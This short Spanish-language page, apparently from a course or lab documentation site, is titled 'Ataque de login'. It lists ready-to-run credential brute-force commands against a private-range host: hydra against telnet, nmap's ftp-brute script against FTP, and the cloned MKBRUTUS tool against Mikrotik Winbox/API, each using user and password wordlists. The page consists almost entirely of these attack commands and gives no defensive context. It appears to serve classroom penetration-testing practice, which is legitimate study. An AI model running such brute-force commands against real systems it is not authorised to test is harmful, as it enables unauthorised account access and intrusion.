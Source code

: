 ```yaml
---
theme: "just-the-docs"
title: "Ataque de login"
layout: default
nav_order: 7
parent: "ARRAY DIINF 2024"
---
```

# Ataque TELNET
## NMAP
```bash
hydra -L usuarios.txt -P diccionario.txt telnet://192.168.85.134
```
# Ataque FTP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=diccionario.txt 192.168.85.134
```
# Winbox/API Mikrotik
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/mkbrutusproject/MKBRUTUS.git
cd MKBRUTUS
python3 mkbrutus.py -t 192.168.85.134 -d /home/lesand/Desktop/tools/diccionarios/diccionario.txt
```
